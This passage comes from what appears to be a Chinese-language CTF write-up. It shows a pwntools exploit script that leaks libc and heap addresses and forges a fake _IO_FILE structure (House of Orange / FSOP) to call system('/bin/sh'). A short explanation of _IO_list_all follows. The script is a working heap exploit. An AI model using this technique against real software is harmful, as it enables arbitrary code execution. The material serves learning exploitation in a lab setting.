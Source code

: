 ```python
    io.recvuntil('f'*8)
    malloc_hook = u64(io.recvuntil('\x7f').ljust(8, b'\x00')) - 0x678
    lf('malloc_hook', malloc_hook)
    libc.address = malloc_hook - libc.sym['__malloc_hook']
    lf('libc base address', libc.address)
    _IO_list_all = libc.sym['_IO_list_all']
    system_addr = libc.sym['system']
    lf('_IO_list_all', _IO_list_all)
    lf('system_addr', system_addr)

    # leak heap
    upgrade(0x10, 'f'*0x10, 666, 2)
    io.sendlineafter("Your choice :", "2")
    io.recvuntil('f'*0x10)
    heap_addr = u64(io.recvuntil('\n', drop=True).ljust(8, b'\x00')) 
    heap_base = heap_addr - 0xE0
    lf('heap_base', heap_base)
    
    # FSOP
    orange = b'/bin/sh\x00' + p64(0x61)             # _IO_list_all
    orange += p64(0) + p64(_IO_list_all - 0x10)     
    orange += p64(0) + p64(1)
    orange = orange.ljust(0xc0, b'\x00')            
    orange += p64(0) * 3                            # mode 
    orange += p64(heap_base + 0x5E8)                # vtable
    orange += p64(0) * 2 + p64(system_addr) 

    payload = cyclic(0x400) + p64(0) + p64(0x21) + p32(233) + p32(56746) 
    payload += p64(0) + orange
    gdb.attach(io,'finish\n'*2)
    upgrade(len(payload), payload, 233, 56746)

    io.sendlineafter('Your choice : ', '1')

if __name__ == "__main__":
    pwn()
    io.interactive()

```

## 利用的结构体

利用的结构体：

### `_IO_list_all`

`_IO_list_all` 是一个 `_IO_FILE_plus`结构体定义的一个指针，存在于`libc`中
